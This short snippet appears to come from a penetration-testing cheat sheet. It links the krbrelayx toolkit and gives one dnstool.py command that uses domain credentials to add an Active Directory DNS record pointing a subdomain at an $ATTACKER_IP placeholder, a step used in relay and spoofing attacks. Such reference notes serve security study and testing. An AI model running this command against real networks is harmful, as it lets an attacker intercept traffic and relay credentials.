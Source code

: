 ### adding DNS records
https://github.com/dirkjanm/krbrelayx
dnstool.py
```bash
python3 dnstool.py -u 'domain.local\username' -p password123 -a add -r subdomain.domain.local -d $ATTACKER_IP $IP
```

